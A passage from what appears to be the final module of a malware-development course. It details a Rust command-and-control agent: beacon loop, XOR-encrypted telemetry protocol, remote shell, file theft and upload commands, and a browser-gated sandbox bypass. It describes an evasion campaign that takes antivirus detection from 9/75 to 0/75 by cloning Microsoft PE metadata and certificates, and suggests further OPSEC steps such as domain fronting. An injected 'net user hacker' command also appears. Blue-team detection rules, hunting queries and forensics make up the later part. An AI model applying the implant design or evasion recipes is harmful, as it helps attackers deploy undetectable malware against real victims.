        if hex_ratio > 0.8: score += 25
        if path == "/api/v1/telemetry": score += 25
        if len(matching) >= 5: score += 20
        if score >= 50:
            findings.append({"src":src,"dst":dst,"path":path,"score":score,"stats":stats,"count":len(grp)})
    return sorted(findings, key=lambda x: x["score"], reverse=True)

parser = argparse.ArgumentParser()
parser.add_argument("--csv", help="CSV log file")
parser.add_argument("--generate-sample", action="store_true")
args = parser.parse_args()

if args.generate_sample:
    import random
    print("timestamp,src_ip,dst,method,path,body_preview")
    base = datetime(2026,3,28,10,0,0)
    t = base
    for _ in range(15):
        t += timedelta(seconds=60+random.uniform(-18,18))
        body = "".join(random.choices("0123456789abcdef",k=64))
        print(f"{t.isoformat()},10.0.0.50,127.0.0.1:8443,POST,/api/v1/telemetry,{body}")
elif args.csv:
    entries = []
    with open(args.csv) as f:
        for row in csv.DictReader(f):
            try:
                entries.append({"ts":datetime.fromisoformat(row["timestamp"]),"src":row.get("src_ip","?"),
                    "dst":row.get("dst","?"),"path":row.get("path","?"),"body":row.get("body_preview","")})
            except: pass
    for f in detect(entries):
        print(f"\n[!] BEACON (score {f['score']}/100): {f['src']} -> {f['dst']}{f['path']}")
        s = f["stats"]
        print(f"    Interval: {s['mean']}s +/- {s['stddev']}s ({s['jitter_pct']}% jitter)")
```

*Note: The Content-Type mismatch (JSON header + hex-only body) is explained in detail in Section 8: Protocol Deep Dive.*

### Defense Hardening

**Layer 1 — Network:**
- Alert on periodic POST to fixed path on non-standard ports
- Flag Content-Type: application/json where body fails JSON validation (hex-only)
- Monitor for plain HTTP to non-standard ports (no TLS = easier inspection)

**Layer 2 — Host:**
- Sysmon Event 3 (Network Connection): outbound HTTP to non-standard ports from unknown processes
- Sysmon Event 1 (Process Create): windows_subsystem=windows processes that make outbound connections but have no visible window
- Monitor `CreateToolhelp32Snapshot` from processes that also create outbound TCP connections

**Layer 3 — Behavioral Correlation:**
- Process loads ws2_32 AND enumerates processes AND makes periodic outbound POST = C2 indicator
- Track beacon timing: 3+ POST requests within 10 minutes with 30% jitter band

**Layer 4 — Endpoint Hardening:**
- Application whitelisting prevents unsigned/unknown binaries from executing
- Network segmentation: workstations should not make HTTP to arbitrary IPs on non-standard ports
- Outbound proxy requirement: force all HTTP through authenticated proxy (breaks direct TcpStream)

---

## Section 8: Protocol Deep Dive — JSON Escaping and Data Flow

### The JSON Escaping Problem

Command results contain arbitrary output: newlines, backslashes, quotes, tabs, and binary data. The check-in JSON must properly escape these or the C2 server's JSON parser rejects the entire message.

```
Raw whoami output:     "desktop-72i69s6\f2u0a\n"
                                       ^          ^
                                  backslash    newline

Without escaping:      {"i":"C117B920","r":"desktop-72i69s6\f2u0a
"}   <-- INVALID JSON (raw newline breaks parser)

With escaping:         {"i":"C117B920","r":"desktop-72i69s6\\f2u0a\\n"}
                                                           ^^        ^^
```

The agent escapes 5 characters before embedding results:
```
  \  ->  \\    (backslash)
  "  ->  \"    (quote)
  \n ->  \n    (newline — literal two chars)
  \r ->  \r    (carriage return)
  \t ->  \t    (tab)
```

This is critical for commands with multi-line output (`dir`, `list`, `ipconfig /all`, `systeminfo`).

### Compact JSON for Command Dispatch

The C2 server must send commands without spaces in JSON separators:

```
WRONG:  {"t": "s", "a": "whoami"}     <-- agent parser can't find "t":"
RIGHT:  {"t":"s","a":"whoami"}         <-- matches agent's string search
```

Python: `json.dumps(cmd, separators=(',', ':'))`

The agent's parser searches for `"t":"` (no space). Python's default `json.dumps` adds spaces after `:` and `,`. This mismatch causes the agent to parse every command as `None` — it beacons normally but never executes anything. A subtle protocol bug that manifests as "agent connects but ignores commands."

### Complete Data Flow

```
Operator types: whoami

C2 Server:
  1. Queue {"t":"s","a":"whoami"}
  2. Agent beacon arrives (check-in with previous result)
  3. json.dumps(cmd, separators=(',',':'))  ->  '{"t":"s","a":"whoami"}'
  4. XOR encrypt with key  ->  bytes
  5. Hex encode  ->  "a3f5b8..."
  6. HTTP 200, Content-Length: N, body: hex string

Agent:
  7. Read HTTP headers, parse Content-Length
  8. Read body (exact Content-Length bytes)
  9. Hex decode  ->  encrypted bytes
  10. XOR decrypt  ->  '{"t":"s","a":"whoami"}'
  11. parse_action: find "t":"  ->  "s"  ->  Action::Exec
  12. extract "a":"  ->  "whoami"
  13. run_command("whoami")
      -> COMSPEC = "C:\Windows\System32\cmd.exe"
      -> Command::new(COMSPEC).args(["/c", "whoami"]).output()
      -> stdout: "desktop-72i69s6\f2u0a\n"
  14. last_output = Some("desktop-72i69s6\f2u0a\n")
  15. Sleep 42-78 seconds (jittered)

Next beacon:
  16. Build check-in: {"i":"C117B920","r":"desktop-72i69s6\\f2u0a\\n"}
                                                          ^^ escaped ^^
  17. XOR encrypt  ->  hex encode  ->  HTTP POST
  18. Server decrypts  ->  json.loads  ->  displays result
```

---

## Section 9: Source Code Deep Dive

### The Beacon Loop

```
Beacon loop (main.rs):

loop {
    // Browser-gate: skip silently when no browser
    if has_active_app() {
        let response = send_report(&state, last_output.as_deref());
        last_output = None;  // Clear after sending

        match response {
            Some(data) => {
                state.retries = 0;  // Reset dead-man counter
                match parse_action(&data) {
                    None         => {}
                    Exec(args)   => last_output = Some(run_command(&args)),
                    Fetch(path)  => last_output = Some(format!("f:{}:{}", path, hex(read_file(&path)))),
                    Store(p, d)  => last_output = Some(format!("w:{}:{}", p, write_file(&p, &d))),
                    ListApps     => last_output = Some(enum_running()),
                    Interval(ms) => { state.interval = ms; last_output = Some(format!("t:{}", ms)); }
                    SetFlag      => last_output = Some("0"),
                    ClearFlag    => last_output = Some("1"),
                    Quit         => exit(0),
                    Other        => last_output = Some("-"),
                }
            }
            None => {
                state.retries += 1;
                if state.retries >= 10 { return; }  // Dead-man switch
            }
        }
    }
    // No browser = silent, no failure count, last_output preserved

    sleep(jittered(state.interval, 30%));  // 42-78 seconds default
}
```

Key design points:
- **Browser check is per-cycle**: closing browser pauses beaconing; reopening resumes
- **Silent skip preserves state**: `last_output` stays queued during browser absence
- **No failure on skip**: only network failures count toward dead-man threshold

### Raw TCP HTTP

```
send_report() flow:

  1. Build JSON: {"i":"<id>","r":"<escaped result>"}
  2. XOR with 32-byte key
  3. Hex encode

  4. TcpStream::connect_timeout("127.0.0.1:8443", 10s)
  5. Build raw HTTP:
       POST /api/v1/telemetry HTTP/1.1\r\n
       Host: 127.0.0.1:8443\r\n
       Content-Type: application/json\r\n
       Content-Length: <N>\r\n
       User-Agent: Chrome/131.0.0.0\r\n
       Connection: close\r\n
       \r\n
       <hex body>
  6. write_all(request)

  7. BufReader on TcpStream
  8. Read lines until blank (headers)
  9. Parse Content-Length header
  10. Read exactly Content-Length bytes (body)
  11. Hex decode -> XOR decrypt -> return decrypted command
```

No Windows HTTP APIs involved. The IAT shows only ws2_32 (standard Winsock from std::net).

### The Four Benign Modules

```
Binary size contribution:

  app_framework     ~50KB   BTreeMap, BTreeSet, HashMap, VecDeque
                            Text processing: CRC32, base64, entropy,
                            Levenshtein distance, run-length encoding

  data_pipeline     ~30KB   DataTable with filter/sort/group/aggregate
                            Matrix operations, CSV generation
                            Pearson correlation

  numeric_utils     ~25KB   Sieve of Eratosthenes (10K primes)
                            Fibonacci, prime factorization, GCD/LCM
                            Modular exponentiation, moving average
                            Histogram, statistical analysis

  runtime_engine    ~80KB   std::net::UdpSocket (pulls in ws2_32)
                            Arc<Mutex<Vec>>, Barrier (thread sync)
                            thread::spawn + join (2 worker threads)
                            BufReader<Cursor> + Seek (stream I/O)
                            fmt::Display implementations
                            time::Instant (elapsed timing)

  Total benign:    ~185KB   (28% of binary)
```

All module outputs feed into the startup delay via XOR chain, preventing LTO dead-code elimination.

---

## Section 10: Adversarial Thinking

### Challenge 1: Defeating Beacon Traffic Analysis

**Scenario**: A network defender captures your HTTP traffic. The hex-only body, periodic timing, and fixed path are all detectable. How do you improve OPSEC?

<details>
<summary>Improvements</summary>

1. **Wrap hex in valid JSON**: `{"status":"ok","data":"<hex>","ts":"..."}` — body matches Content-Type, defeats format validation checks.

2. **Use TLS**: Add rustls for TLS termination. Currently plain HTTP is trivially inspectable by any proxy or IDS.

3. **Port 443 instead of 8443**: Non-standard ports are immediately flagged. Port 443 blends with normal HTTPS.

4. **Domain fronting**: Route through a CDN. SNI points to legitimate domain, Host header points to C2. Network defenders see traffic to `cdn.example.com`.

5. **Rotate paths**: Derive path from timestamp — `/api/v1/events/<hash>`, `/metrics/<nonce>`. Server routes all to same handler.

6. **Variable payload padding**: Random-length padding before encryption varies ciphertext length, defeating length-based correlation.
</details>

### Challenge 2: Server Environments Without Browsers

**Scenario**: On a headless Windows Server, no browser ever runs. The agent never activates.

<details>
<summary>Server-aware gating</summary>

1. **Detect platform**: `HKLM\SYSTEM\CurrentControlSet\Control\ProductOptions\ProductType` — `WinNT` = workstation, `ServerNT`/`LanmanNT` = server.

2. **Server gate**: Check for service processes (`sqlservr.exe`, `w3wp.exe`, `java.exe`) instead of browsers. Real servers have workloads; sandboxes don't.

3. **RDP gate**: `WTSEnumerateSessionsW` for active RDP sessions. Real servers get admin RDP; sandboxes don't.

4. **Dual config**: Detect platform at startup, select appropriate gate automatically.
</details>

### Challenge 3: Recovering the XOR Key from Traffic

**Scenario**: You captured beacon traffic but don't have the binary. Can you recover the XOR key from the encrypted check-ins? *(This applies the same known-plaintext attack taught in Stage 02, now against a live protocol instead of a static blob.)*

<details>
<summary>Known-plaintext attack</summary>

The check-in starts with `{"i":"` (6 known bytes). XOR the first 6 hex-decoded bytes of ANY captured beacon body with these 6 ASCII bytes — you recover 6 bytes of the key. Since the key repeats every 32 bytes, capture multiple beacons and combine partial key recoveries.

With the agent ID (predictable from `COMPUTERNAME`), you know `{"i":"XXXXXXXX","r":"` — that's 20+ known bytes, recovering most of the key from a single capture.

Defense: This is why XOR is insufficient for real C2 — use AES-GCM or ChaCha20-Poly1305 with a key exchange protocol.
</details>

### Challenge 4: The Rich Header as a Universal Fingerprint

**Scenario**: Your PE patcher clones Rich header entries from ApplicationFrameHost.exe. An analyst notices that 50 of your Goodboy binaries share the EXACT same Rich header as ApplicationFrameHost. Is this detectable?

<details>
<summary>Analysis</summary>

Yes. The probability of a unique software project producing the exact same Rich header as a specific Microsoft binary is approximately zero. If an analyst collects multiple samples and notices they all share identical Rich headers (same comp.ids, same builds, same counts) with a known Microsoft binary, that's a strong clustering signal.

Mitigations:
1. **Vary per-binary**: Use different donor binaries for different builds (mstsc.exe, perfmon.exe, dxdiag.exe).
2. **Mutate counts**: After cloning, add small random perturbations to the object counts (e.g., +-1-3). This makes each binary's Rich header unique while staying within plausible ranges.
3. **Build with MSVC C++**: The ultimate fix — compile a C++ wrapper that calls the Rust code as a library. The Rich header naturally reflects the C++ toolchain.
</details>

---

### Challenge 5: Traffic Replay Attack

**Scenario**: You captured a hex-encoded beacon body from Wireshark. The protocol uses XOR encryption with a static key and NO nonce, NO counter, NO timestamp in the crypto layer. Can you replay captured traffic to impersonate the agent or inject commands?

<details>
<summary>Analysis</summary>

The protocol is **fully vulnerable to replay attacks**:

**Agent impersonation**: Capture a valid check-in body, replay it via `curl`:
```
curl -X POST http://127.0.0.1:8443/api/v1/telemetry \
  -H "Content-Type: application/json" \
  -d "<captured hex body>"
```
The C2 server decrypts it, sees a valid check-in JSON, and responds with the next queued command. The attacker now has the encrypted command. If they know (or recover) the XOR key, they can decrypt it.

**Command injection**: If you have the XOR key (from Challenge 3), you can craft a fake command response:
```python
cmd = '{"t":"s","a":"net user hacker P@ss /add"}'
encrypted = xor_crypt(KEY, cmd.encode())
# Inject as HTTP 200 response via MITM
```
Since there's no HMAC, no signature, and no sequence number, the agent accepts any validly-encrypted command from any source.

**Defenses that would prevent this**:
1. **Nonce per message**: Include a random nonce in each encrypted payload. Server tracks seen nonces and rejects duplicates.
2. **Sequence counter**: Monotonically increasing counter XOR'd into the crypto. Out-of-order messages rejected.
3. **HMAC**: Append `HMAC-SHA256(key, payload)` to each message. Prevents tampering even if encryption key is known.
4. **Key exchange**: Derive a unique session key via ECDH. Each session has a different key, so captured traffic from one session can't be replayed in another.
5. **Mutual TLS**: Both agent and server authenticate with certificates. Prevents MITM entirely.

This is the most significant protocol weakness — and it's deliberately left unfixed to keep the binary small and the code simple. Production C2 frameworks (Cobalt Strike, Sliver) use session keys + HMAC + encrypted channels to prevent exactly this attack.
</details>

---

## Section 11: Dynamic Analysis Walkthrough

### Full Testing Procedure

**Step 1: Start the C2 listener**
```
python mock_c2.py
```
Wait for the banner and `$` prompt.

**Step 2: Launch the agent**
```
c2-agent.exe
```
The agent runs silently (no console window). It will:
- Initialize 4 benign framework modules (~2 seconds)
- Create a brief invisible window (GUI lifecycle)
- Sleep 5-15 seconds (startup delay)
- Block at `wait_for_user_activity()` — waiting for browser

**Step 3: Pass the browser-gate**
Open a web browser (Chrome, Edge, Firefox, Brave). Browse normally — switch between 3+ different tabs/pages. The agent polls every 2 seconds. Once 3 unique window titles are observed, the gate passes.

**Step 4: First check-in**
Within ~60 seconds of gate passage, you'll see:
```
  + session opened
  id    C117B920
  time  02:01:54
```

**Step 5: Speed up for testing**
```
$ sleep 10000
```
Wait for next beacon — the agent will confirm:
```
  --- beacon #3 from C117B920
  t:10000
  ---
```
Now beacons arrive every ~10 seconds.

**Step 6: Test commands**
```
$ whoami
```
Next beacon delivers the command. Beacon after that returns:
```
  --- beacon #5 from C117B920
  desktop-72i69s6\f2u0a
  ---
```

```
$ ipconfig /all
```
Returns full network configuration.

```
$ list
```
Returns all running processes (400+ entries).

```
$ dir C:\Users
```
Returns directory listing.

**Step 7: Verify in Wireshark**
Filter: `tcp.port == 8443`
- Observe periodic TCP connections (SYN/ACK/FIN every ~10 seconds)
- HTTP POST body is hex-only characters
- Response body is hex-only
- Use `traffic_decryptor.py` to decrypt captured bodies

**Step 8: Terminate**
```
$ kill
```
Agent exits on next beacon. Process disappears from Task Manager.

### Verification Checklist

| Step | Expected Result |
|------|----------------|
| Agent without browser | Blocks indefinitely, no network traffic |
| Open browser + 3 tabs | Agent passes gate, first beacon arrives |
| `sleep 10000` | Beacon interval drops to ~10s |
| `whoami` | Returns `<hostname>\<username>` on next+1 beacon |
| `dir C:\` | Returns directory listing with proper escaping |
| `list` | Returns 300+ process entries |
| `kill` | Agent process terminates |
| Close browser mid-session | Beacons pause (no failure count) |
| Reopen browser | Beacons resume immediately |

---

## Section 12: The Evasion Campaign — From 9/75 to 0/75

### Full Kill Chain

```
Iteration  Score  Change                              Engines Killed
---------  -----  ----------------------------------  --------------------------
v1 (orig)  9/75   Starting point                      —
v2         5/75   Short cmd codes, COMSPEC, new PRNG  K7, K7GW, Antiy, Tencent, DeepInstinct
v3         4/75   Remove black_box, benign code       (none new — DeepInstinct re-killed)
v7         4/75   app_framework module                Microsoft Wacatac
v8         3/75   data_pipeline + numeric_utils       AVG, Avast MalwareX-gen
v12        2/75   Rich header clone + version fix     ESET Agent.ION
                  + Rust string strip
v14        1/75   Raw TcpStream (no WinHTTP/WinINet)  Bkav
v14c       0/75   ApplicationFrameHost.exe cert       Fortinet GenCBL
```

### Key Insight: Detection Is Layered

Each AV engine detects at a different layer. Fixing code doesn't help against PE-level signatures. Fixing PE metadata doesn't help against code-level ML. You must attack ALL layers:

| Layer | What It Detects | Fix |
|-------|----------------|-----|
| String patterns | "selfdestruct", "cmd.exe", magic constants | Short codes, COMSPEC, non-recognizable constants |
| Code behavior ML | Offensive/benign code ratio, IAT composition | Benign framework modules, diverse DLL imports |
| PE metadata | Rich header, linker version, Rust panic strings | Clone from donor PE, version patching, string stripping |
| Authenticode | Specific cert + binary combination | Different donor (ApplicationFrameHost, not svchost) |
| HTTP library | WinHTTP/WinINet function imports | Raw TcpStream (std::net only) |

---

## Section 13: Summary

```
+-----------------------------------------------------------+
| C2 Agent Architecture                                     |
+-----------------------------------------------------------+
|                                                           |
| 1. COMMUNICATIONS                                         |
|    XOR encrypt -> hex encode -> HTTP POST via TcpStream   |
|    No WinHTTP, no WinINet — pure std::net                 |
|    Chrome 131 User-Agent for traffic blending             |
|    /api/v1/telemetry path mimics legitimate API           |
|                                                           |
| 2. COMMAND DISPATCH                                       |
|    9 commands via single-char type codes                  |
|    No offensive vocabulary in binary                      |
|    Shell via COMSPEC (no hardcoded cmd.exe)               |
|    Process list via existing ToolHelp imports             |
|                                                           |
| 3. SANDBOX BYPASS                                         |
|    Browser-gate: only beacon when browser is running      |
|    Tab-activity: 3 unique titles proves human             |
|    Startup delay: 5-15s (GetTickCount-based)              |
|                                                           |
| 4. ML EVASION                                             |
|    660KB binary (benign size range)                       |
|    4 framework modules pull in std::net/sync/thread       |
|    ws2_32 + user32 + shell32 + version.dll IAT            |
|    GUI window lifecycle (STATIC class + message pump)     |
|                                                           |
| 5. PE FINGERPRINT ELIMINATION                             |
|    Rich header cloned from ApplicationFrameHost.exe       |
|    Linker 14.38, OS 10.0, Subsystem 10.0                  |
|    Zero Rust strings (/rustc/, .rs, panicking)            |
|    Authenticode from non-svchost Microsoft binary         |
|                                                           |
+-----------------------------------------------------------+
```

### MITRE ATT&CK Mapping

| Technique | ID | How It's Used |
|-----------|----|---------------|
| Web Protocols | T1071.001 | HTTP POST beaconing to /api/v1/telemetry |
| Symmetric Cryptography | T1573.001 | XOR-encrypted + hex-encoded comms |
| Windows Command Shell | T1059.003 | Shell execution via COMSPEC |
| Exfiltration Over C2 | T1041 | Fetch ("d") reads files, hex-encodes, returns in next beacon. Size limited by HTTP body (~65KB cap). Detection: alert on abnormally large beacon responses |
| Ingress Tool Transfer | T1105 | Store ("u") hex-decodes data from command, writes to arbitrary path. Detection: Sysmon Event 11 (file creation) from the agent process, especially to sensitive directories |
| Process Discovery | T1057 | ListApps via CreateToolhelp32Snapshot |
| User Activity Checks | T1497.002 | Browser-gate + tab-activity gate |
| Data Encoding | T1132.001 | Hex encoding of all traffic |
| Masquerading | T1036 | PE metadata claims Microsoft identity |

### Course Complete

This is the final stage. The meta-lesson across all 15 stages:

**Every binary that achieved 0/75+ did so through SUBTRACTION, not addition.** Removing offensive strings, removing FNV-1a constants, removing WinHTTP imports, removing the common library, removing Rust panic strings, removing the svchost cert — each removal killed detections that no amount of addition could bypass.

The most evasive binary is the one with the least distinctive code.

### Further Reading

- [EMBER2024: ML Training on Evasive Malware (CrowdStrike)](https://www.crowdstrike.com/en-us/blog/ember-2024-advancing-cybersecurity-ml-training-on-evasive-malware/)
- [ESET DNA Detections](https://help.eset.com/glossary/en-US/technology_dna_detections.html)
- [Evading ML Malware Detection (Compass Security)](https://blog.compass-security.com/2020/10/evading-static-machine-learning-malware-detection-models-the-black-box-approach/)
- [JA3 TLS Fingerprinting](https://github.com/salesforce/ja3)
- [The C2 Matrix](https://www.thec2matrix.com/)
- [Cobalt Strike 4.11](https://www.cobaltstrike.com/blog/)

### How This Agent Compares to Production C2 Frameworks

| Feature | Goodboy Agent | Cobalt Strike | Sliver | Mythic |
|---------|--------------|---------------|--------|--------|
| Beacon interval + jitter | 60s + 30% | Configurable | Configurable | Configurable |
| Encryption | XOR-32 (static key) | AES-256 (session keys) | mTLS / WireGuard / HTTPS | Per-agent crypto |
| Replay protection | **None** | Nonce + counter | TLS session | Per-message MAC |
| Key exchange | None (static PRNG) | RSA + AES negotiation | mTLS certificates | Payload-embedded keys |
| Sleep obfuscation | None | Sleepmask V3 | None | Agent-dependent |
| Process injection | None | Multiple techniques | Process hollowing | Agent-dependent |
| Named pipe / SMB C2 | No | Yes (SMB beacon) | No | Yes (some agents) |
| DNS C2 channel | No | Yes (DNS beacon) | Yes (DNS canary) | Yes (some agents) |
| Domain fronting | No | Yes (malleable C2) | Yes (HTTPS) | Configurable |
| Peer-to-peer | No | Yes (SMB/TCP) | No | No |
| In-memory execution | Binary on disk | Reflective DLL | Reflective DLL | Agent-dependent |
| Anti-analysis | Browser-gate only | Extensive | Basic | Agent-dependent |
| Sandbox evasion | Triple browser-gate | Configurable gates | Basic | Agent-dependent |
| PE evasion (ML) | Rich header + version + Authenticode | Artifact kit | None built-in | None built-in |
| Binary size | ~660KB | ~300KB (beacon) | ~10MB (implant) | Varies |
| Source available | Yes (educational) | No (commercial) | Yes (Apache 2.0) | Yes (BSD 3-Clause) |
| VT score (typical) | 0/71 | 5-30/71 (default) | 2-15/71 | Varies |

The Goodboy agent implements the **minimum viable C2 architecture** — beacon loop, encrypted comms, command dispatch, and sandbox evasion. Production frameworks add layers (key exchange, sleep obfuscation, P2P, multiple channels) that this agent deliberately omits to stay under ML thresholds. The meta-lesson: feature richness and evasion are inversely correlated for static analysis.

---

## Section 14: Blue Team Deep Dive — Detecting the Undetectable

This section approaches the c2-agent from a pure defender's perspective. You have no binary, no source code — only your endpoint telemetry, network logs, and forensic tools.

### Sysmon Detection Rules

**Event 1 — Process Creation: GUI process with no window**

```xml
<RuleGroup groupRelation="and">
  <ProcessCreate onmatch="include">
    <!-- GUI subsystem process that creates outbound connections -->
    <Rule groupRelation="and">
      <Image condition="end with">.exe</Image>
      <IntegrityLevel condition="is">Medium</IntegrityLevel>
    </Rule>
  </ProcessCreate>
</RuleGroup>
```

The agent uses `#![windows_subsystem = "windows"]` which means no console window. Correlate: a process with no visible window that later generates Event 3 (network connection) is suspicious.

**Event 3 — Network Connection: Periodic outbound to non-standard port**

```yaml
title: Periodic Outbound HTTP to Non-Standard Port
id: f1a2b3c4-5678-9abc-def0-123456789abc
status: experimental
logsource:
    category: network_connect
    product: windows
detection:
    selection:
        DestinationPort:
            - 8443
            - 8080
            - 9443
        Initiated: 'true'
    filter_browsers:
        Image|endswith:
            - '\chrome.exe'
            - '\firefox.exe'
            - '\msedge.exe'
            - '\brave.exe'
    filter_system:
        Image|startswith: 'C:\Windows\'
    condition: selection and not filter_browsers and not filter_system | count() by Image, DestinationPort > 2
    timeframe: 5m
level: high
tags:
    - attack.command_and_control
    - attack.t1071.001
```

This catches the agent's periodic TCP connections. The key indicator: **3+ connections to the same non-standard port within 5 minutes from a non-browser process.**

**Event 7 — Image Load: ws2_32.dll by unexpected process**

```yaml
title: Winsock Loaded by Process Without Network UI
id: a5b6c7d8-9012-3456-7890-abcdef012345
status: experimental
logsource:
    category: image_load
    product: windows
detection:
    selection:
        ImageLoaded|endswith: '\ws2_32.dll'
    filter_expected:
        Image|endswith:
            - '\chrome.exe'
            - '\firefox.exe'
            - '\msedge.exe'
            - '\svchost.exe'
            - '\OneDrive.exe'
            - '\Teams.exe'
            - '\Code.exe'
    condition: selection and not filter_expected
level: low
tags:
    - attack.command_and_control
```

Low severity alone, but when combined with Event 3 (periodic connections) from the same process, becomes high confidence.

**Event 22 — DNS Query (if domain-based C2)**

The current agent uses a direct IP (127.0.0.1), so no DNS events. But if modified to use a domain, Sysmon Event 22 captures the resolution — a strong IOC since the domain can be sinkholed.

### Network Forensics — Wireshark Analysis

**Capture filter:** `tcp port 8443`

**What you'll see:**

```
Packet 1: SYN to 127.0.0.1:8443
Packet 2: SYN-ACK
Packet 3: ACK
Packet 4: HTTP POST /api/v1/telemetry (agent -> server)
  - Full HTTP headers visible (plain HTTP, no TLS)
  - Body: hex characters only [0-9a-f]
  - Content-Type claims "application/json" but body is NOT JSON
Packet 5: HTTP 200 OK (server -> agent)
  - Body: hex characters only
Packet 6-8: FIN handshake

Pattern repeats every 42-78 seconds.
```

**Wireshark display filters:**

```
# All C2 traffic
http.request.uri == "/api/v1/telemetry"

# POST requests only
http.request.method == "POST" && tcp.port == 8443

# Extract beacon bodies
http.file_data matches "[0-9a-f]+"

# Timing analysis: export to CSV, analyze intervals
```

**Statistical analysis in Wireshark:**
1. Statistics -> Conversations -> TCP tab
2. Sort by packets — the C2 conversation shows many short-lived connections (6-8 packets each)
3. Each connection transfers ~200-2000 bytes depending on command results
4. The periodic pattern (connections every ~60s) is visible in the time column

**Content-Type mismatch detection:**
```
http.content_type == "application/json" && !(http.file_data contains "{")
```
This catches the agent's hex body that claims to be JSON but contains no JSON structure.

### Forensic Artifact Inventory

**When the agent is RUNNING (volatile artifacts):**

| Artifact | Location | Tool |
|----------|----------|------|
| Process | `sechealth.exe` in Task Manager | Process Explorer, tasklist |
| Network connections | TCP to 127.0.0.1:8443 (periodic) | netstat -anob, TCPView |
| Loaded DLLs | ws2_32.dll, user32.dll, shell32.dll, version.dll | listdlls, Process Explorer |
| Window | Invisible 1x1 "Health Check" window (brief, during startup) | Spy++ |
| Threads | Main thread + 2 worker threads (from runtime_engine) | Process Explorer |
| Temp files | `%TEMP%\appcfg.dat`, `%TEMP%\healthcfg.dat` | dir %TEMP% |
| Sysmon logs | Events 1, 3, 7 | Event Viewer |
| ETW | Microsoft-Windows-Kernel-Network provider | xperf, ProcMon |

**After agent EXITS (persistent artifacts):**

| Artifact | Survives Reboot? | Location |
|----------|-----------------|----------|
| Temp files (`appcfg.dat`, `healthcfg.dat`) | Yes | `%TEMP%` |
| Binary on disk | Yes | Wherever it was executed from |
| Prefetch | Yes | `C:\Windows\Prefetch\SECHEALTH.EXE-<hash>.pf` |
| NTFS $MFT entry | Yes | MFT record for the binary (even if deleted) |
| USN Journal | Yes (until recycled) | `$UsnJrnl` change entries |
| Sysmon logs | Yes (until rotated) | Event log: Microsoft-Windows-Sysmon/Operational |
| Windows Security log | Yes (until rotated) | Event 4688 (process creation) |
| WMI repository | No (no WMI used) | N/A |
| Registry | No (no registry used) | N/A |
| Scheduled tasks | No (no persistence) | N/A |

**Key insight:** The agent leaves MINIMAL forensic artifacts because it deliberately avoids persistence mechanisms. The temp files (`appcfg.dat`, `healthcfg.dat`) are the strongest disk-based evidence — they prove the agent ran. The Prefetch file proves execution timing (last 8 runs with timestamps).

### Memory Analysis

**What a memory scanner sees:**

The agent's address space contains:
1. **Code sections**: Standard Rust compiled code (~400KB .text). No shellcode, no injected code, no RWX regions.
2. **Stack**: Session struct with XOR key in plaintext (32 bytes), machine ID string, interval value.
3. **Heap**: Command results (last_output) in cleartext between beacon cycles. If you dump memory during the sleep interval, you can read the last command's output.
4. **Strings in memory**: The decrypted check-in JSON is briefly in memory during `send_report()`. After the function returns, the String is dropped but the heap memory isn't zeroed.

**Volatility3 / WinDbg approach:**

```
# Find the process
vol3 -f memory.dmp windows.pslist | grep sechealth

# Dump process memory
vol3 -f memory.dmp windows.memmap --pid <PID> --dump

# Search for XOR key (32 bytes starting with known first byte)
# The key is deterministic — compute it and search for it:
python3 -c "
key = bytearray(32)
val = 0x5A3CF7E1
for i in range(32):
    val = (val * 0x6C7AC8E3 + 0x4B2D9F71) & 0xFFFFFFFF
    key[i] = (val >> 16) & 0xFF
print(key.hex())
"
# Output: 1fb78cb67e6d261883e4027a4ae24eed...
# Search for this byte sequence in the process dump

# Search for check-in JSON pattern
strings process_dump.dmp | grep '"i":"[A-F0-9]\{8\}","r":'
```

**Key vulnerability**: The XOR key is **always in memory** in the Session struct. A memory dump at any point during execution reveals the key, allowing decryption of all captured traffic.

### Threat Hunting Queries

**Splunk:**

```spl
# Periodic outbound connections to non-standard port
index=sysmon EventCode=3 DestinationPort!=443 DestinationPort!=80 Initiated=true
| stats count, earliest(_time) as first, latest(_time) as last by Image, DestinationIp, DestinationPort
| where count > 5
| eval duration=last-first
| eval avg_interval=duration/count
| where avg_interval > 30 AND avg_interval < 120
| table Image, DestinationIp, DestinationPort, count, avg_interval
```

```spl
# Process that loads ws2_32 AND has periodic network connections
index=sysmon EventCode=7 ImageLoaded="*ws2_32.dll"
| join ProcessId [search index=sysmon EventCode=3 Initiated=true
  | stats count by ProcessId, Image
  | where count > 5]
| table _time, Image, ProcessId
```

```spl
# Non-browser process with periodic network activity
index=sysmon EventCode=3 Initiated=true
NOT Image IN ("*chrome.exe","*firefox.exe","*msedge.exe","*svchost.exe")
| bin _time span=5m
| stats dc(DestinationPort) as unique_ports, count by Image, _time
| where count >= 3 AND unique_ports == 1
```

**KQL (Microsoft Sentinel / Defender):**

```kql
// Periodic beacon detection
DeviceNetworkEvents
| where RemotePort !in (80, 443) and ActionType == "ConnectionSuccess"
| where InitiatingProcessFileName !in ("chrome.exe","msedge.exe","firefox.exe","svchost.exe")
| summarize ConnectionCount=count(), MinTime=min(Timestamp), MaxTime=max(Timestamp)
    by InitiatingProcessFileName, RemoteIP, RemotePort, bin(Timestamp, 5m)
| where ConnectionCount >= 3
| extend AvgIntervalSeconds = datetime_diff('second', MaxTime, MinTime) / ConnectionCount
| where AvgIntervalSeconds between (30 .. 120)
```

```kql
// Content-Type mismatch (if proxy logs available)
CommonSecurityLog
| where RequestMethod == "POST"
| where RequestContext has "application/json"
| where RequestBody matches regex "^[0-9a-f]+$"
| summarize Count=count() by DestinationIP, DestinationPort, bin(TimeGenerated, 10m)
| where Count >= 3
```

### Blue Team Exercises

**Exercise BT-1: Detect the agent using only Sysmon logs**

You have a Sysmon log export from a compromised workstation. The agent ran for 2 hours before being terminated. Using only Events 1, 3, and 7:

1. Identify the suspicious process (hint: GUI subsystem, loads ws2_32, periodic outbound connections)
2. Determine the C2 server IP and port
3. Calculate the beacon interval from Event 3 timestamps
4. Estimate how long the agent was active

<details>
<summary>Approach</summary>

1. Filter Event 3 by Initiated=true, group by Image+DestinationPort, sort by count descending. The agent shows as the ONLY non-browser process with 50+ connections to the same port.
2. Event 3 fields: DestinationIp=127.0.0.1, DestinationPort=8443
3. Export Event 3 timestamps for the suspicious process, compute intervals between consecutive events. Expected: 42-78 seconds (60s +/-30% jitter).
4. First Event 3 timestamp to last Event 3 timestamp = active duration.
</details>

**Exercise BT-2: Extract the XOR key from a memory dump**

You have a memory dump of the running agent process. The XOR key is somewhere in the heap/stack.

1. The key is 32 bytes derived from PRNG with known seed. Compute the expected key.
2. Search the memory dump for this byte sequence.
3. Use the key to decrypt a captured beacon body.
4. Parse the decrypted JSON to identify the agent and its last command result.

<details>
